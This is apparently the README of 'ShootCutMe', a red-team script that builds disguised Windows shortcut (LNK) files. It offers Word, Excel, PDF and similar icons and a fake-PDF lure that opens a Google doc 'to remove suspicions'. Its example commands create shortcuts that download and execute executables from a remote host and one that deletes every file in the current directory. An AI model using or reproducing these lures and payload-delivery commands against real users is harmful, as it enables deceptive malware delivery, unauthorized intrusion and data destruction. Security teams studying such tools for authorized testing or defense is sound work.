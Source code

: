 # ShootCutMe:

LNK files are used on the most modern and advanced APT attacks.

LNK files are windows shortcut files. Using a shortcut file you can launch your own commands.

I am happy to introduce ShootCutMe a script to create LNK files.

Options Available For Version 0.1:

- Fake pdf (Will open a fake Google doc on the browser in kiosk mode to lure the victim and remove suspicions)

- You can choose between different icons (word, Adobe, Excel, PowerPoint, Edge...)

- You can choose what you want to accomplish with the LNK file: download an executable, download and load an executable, execute an executable)
  Using the LNK file you can drop your first-stage malware and complete your red teaming engagement successfully.

## Photo:
![scan](/shootcutme.png)
## Demo:

[![ShootCutMeDemo](https://img.youtube.com/vi/gtsenuVOE38/0.jpg)](https://www.youtube.com/watch?v=gtsenuVOE38)

<a href="https://youtu.be/gtsenuVOE38" target="_blank">Demo Video</a>


## Install:

```cmd
python -m venv lnkenv
lnkenv\Scripts\activate.bat
python -m pip install -r requirements.txt
```

## Examples:

### Download File:

```cmd
python shootcutme.py --icon excel --name test1 -d http://10.0.3.90:8081/file.txt fileNameAfterDownload.txt D:\LNKtest
```

### Launch Executable:

```cmd
python shootcutme.py --icon word --name test2 -ex exeToLaunch.exe
```

### Fake PDF

```cmd
python shootcutme.py --icon edge --name <shotcutFileName> -fp <googleDocUrl> <executableToLaunch>
```

### Download And Execute:

```cmd
python shootcutme.py --icon pdf --name <shortCutFileName> -dl http://10.0.3.90:8081/example.exe exampleTest.exe D:\LNKtest
```

### Delete all files on the current directory:

```cmd
python shootCutMe.py -n test1.pdf --icon pdf --delete
```
